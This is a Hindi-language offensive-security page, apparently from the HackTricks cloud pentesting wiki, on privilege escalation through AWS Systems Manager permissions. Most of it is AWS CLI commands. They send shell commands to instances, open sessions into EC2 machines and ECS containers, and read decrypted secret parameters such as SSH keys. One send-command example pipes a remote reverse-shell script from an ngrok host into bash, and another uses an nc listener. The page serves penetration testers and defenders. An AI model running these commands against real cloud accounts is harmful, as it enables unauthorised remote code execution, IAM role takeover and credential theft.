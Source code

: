 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** है, वह **Amazon SSM Agent** चला रहे उदाहरणों में **कमांड निष्पादित कर सकता है** और **इसके अंदर चल रहे IAM Role को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग पहले से समझौता किए गए EC2 उदाहरण के भीतर विशेषाधिकार बढ़ाने के लिए कर रहे हैं, तो आप बस स्थानीय रूप से रिव शेल को कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:StartSession`

एक हमलावर जिसके पास अनुमति **`ssm:StartSession`** है, वह **Amazon SSM एजेंट चला रहे उदाहरणों में SSH जैसी सत्र शुरू कर सकता है** और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना होगा: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

#### ECS पर प्रिवेस्क

जब **ECS कार्य** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके **कंटेनर के अंदर एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड शुरू करने के लिए करते हैं और लक्षित कंटेनर के साथ SSM सत्र प्रबंधक। (इस कार्य के लिए SSM सत्र प्रबंधक प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प को सक्षम करके **ECS कार्यों के अंदर एक शेल प्राप्त** कर सकेंगे, बस यह चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम चल रहे कार्यों से जुड़े `ECS` IAM भूमिकाओं के लिए सीधे प्रिवेस्क।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति **`ssm:ResumeSession`** है, वह **Amazon SSM एजेंट के साथ चल रहे उदाहरणों में SSH जैसी सत्र को फिर से शुरू कर सकता है** जिसमें **अविभाजित** SSM सत्र स्थिति है और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क और डिस्कनेक्टेड सत्रों के साथ SSM एजेंट।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उपरोक्त अनुमतियों के साथ एक हमलावर **SSM पैरामीटर** की सूची बनाने और **उन्हें स्पष्ट पाठ में पढ़ने** में सक्षम होगा। इन पैरामीटर में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कुंजी या API कुंजी पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर के अंदर संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है जो भेजी गई हैं और उम्मीद है कि उन पर **संवेदनशील जानकारी** मिलेगी।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है और **आउटपुट** को पढ़ सकता है, उम्मीद है कि इसमें **संवेदनशील जानकारी** मिलेगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइनों के आउटपुट के अंदर संवेदनशील जानकारी खोजें।

### कोडबिल्ड

आप SSM का उपयोग करके एक कोडबिल्ड प्रोजेक्ट में भी प्रवेश कर सकते हैं जो बनाया जा रहा है:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
